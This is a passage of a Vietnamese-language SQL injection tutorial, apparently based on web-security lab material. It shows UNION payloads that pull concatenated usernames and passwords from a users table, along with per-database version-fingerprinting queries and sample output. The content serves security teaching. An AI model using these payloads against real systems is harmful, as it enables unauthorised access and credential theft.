 ```sql
' UNION SELECT username || '~' || password FROM users--
```

Ở đây, chuỗi ký hiệu `||` là toán tử nối chuỗi trong Oracle. Truy vấn được chèn này sẽ nối giá trị của các trường **`username`** và **`password`**, được phân tách bởi ký tự `~`.

Kết quả trả về từ truy vấn sẽ chứa toàn bộ danh sách username và password, ví dụ:

```
administrator~s3cure
wiener~peter
carlos~montoya
```

# Kiểm tra DB trong các cuộc tấn công SQLi

Để khai thác lỗ hổng **SQL injection**, thường cần thu thập thông tin về cơ sở dữ liệu. Thông tin này bao gồm:

- Loại và phiên bản của phần mềm cơ sở dữ liệu.
- Các bảng và cột mà cơ sở dữ liệu đang chứa.

## Loại và phiên bản cơ sở dữ liệu

Bạn có thể xác định loại và phiên bản của cơ sở dữ liệu bằng cách chèn các truy vấn đặc thù cho từng hệ quản trị cơ sở dữ liệu (DBMS) và kiểm tra xem truy vấn nào hoạt động.

Dưới đây là một số truy vấn dùng để xác định phiên bản cơ sở dữ liệu của các hệ phổ biến:

| Loại CSDL | Truy vấn |
| --- | --- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

Ví dụ, bạn có thể sử dụng tấn công **UNION** với payload sau:

```sql
' UNION SELECT @@version--
```

Kết quả trả về có thể như sau. Trong trường hợp này, bạn có thể xác nhận rằng cơ sở dữ liệu là **Microsoft SQL Server** và biết được phiên bản đang dùng:

```sql
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## Liệt kê nội dung của cơ sở dữ liệu

